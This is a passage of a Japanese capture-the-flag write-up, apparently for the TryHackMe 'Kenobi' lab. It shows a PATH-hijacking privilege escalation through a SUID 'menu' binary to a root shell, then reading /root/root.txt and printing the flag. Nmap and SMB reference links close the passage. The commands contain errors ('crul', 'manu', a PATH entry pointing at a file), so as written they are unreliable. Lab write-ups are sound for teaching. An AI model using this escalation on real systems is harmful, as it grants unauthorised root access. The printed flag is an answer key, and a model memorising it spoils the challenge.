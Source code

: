 #### 実行したコマンド
```bash
echo /bin/bash > curl
sudo chmod 777 crul
export PATH=/home/kenobi/curl:$PATH
manu
whoami
cat /root/root.txt
```  
  
#### 説　明
- `echo /bin/bash > curl`
  - `curl`というファイルに、`/bin/bash`を書き込む
- `sudo chmod 777 curl`
  - curlファイルの`実行権限を無敵状態`にする
- `export PATH=/home/kenobi/curl:$PATH`
  - curlファイルを`環境変数PATH`に追加する
  - これでパス指定しなくても、curlと打つだけで実行可能となる
- `manu`
  - manuコマンドを実行し、`curl -I hocalhost`が実行される、`オプション1`を選択する
  - curlはすでに置き換えられているので、置き換えたcurlファイルが実行され、中に記載された`/bin/bash`が`root`で実行される
- `whoami`
  - 念のため確認
- `cat /root/root.txt`
  - ルートフラグを取得  
  
#### 解　答
ルートフラグ：`177b3cd8562289f37382721c28381f02`  
  
![image](https://github.com/y-uoh/THM/assets/169203901/1ebf17f6-4ae9-4dec-a9ce-56b585f35b4d)  
  
## 参　考
### Nmapポートスキャンテクニック
[Nmapによるポートスキャンの基礎 - Qiita](https://qiita.com/kenryo/items/1b49bddce44e9412638f)  
[Nmapスキャンの全コマンド・オプションを日本語解説](https://at-virtual.net/%E3%82%BB%E3%82%AD%E3%83%A5%E3%83%AA%E3%83%86%E3%82%A3/namp%E3%82%B9%E3%82%AD%E3%83%A3%E3%83%B3%E3%81%AE%E5%85%A8%E3%82%B3%E3%83%9E%E3%83%B3%E3%83%89%E3%83%BB%E3%82%AA%E3%83%97%E3%82%B7%E3%83%A7%E3%83%B3%E3%82%92%E6%97%A5%E6%9C%AC%E8%AA%9E%E8%A7%A3/)  
  
### nseスクリプトの探索
#### スクリプトが格納されているディレクトリ
`/usr/share/namp/scripts`  
#### 探索要領一例
`grep -rl <探索したい文字列> /usr/share/nmap/scripts`  
> `grep`で`/usr/share/nmap/scripts`内にある探索文字列が含まれるスクリプトを出力する
> rオプション -> ディレクトリを指定した場合は、そのサブディレクトリ内も検索
> lオプション -> 一致するものを含むファイル名のみ抽出する
  
### SMBコマンド
[smbclientコマンド - Qiita](https://qiita.com/ss12345/items/4bcd603d12f7df2f6a06)  
[smbgetコマンド](https://www.samba.gr.jp/project/translation/4.0/htmldocs/manpages/smbget.1.html)  
  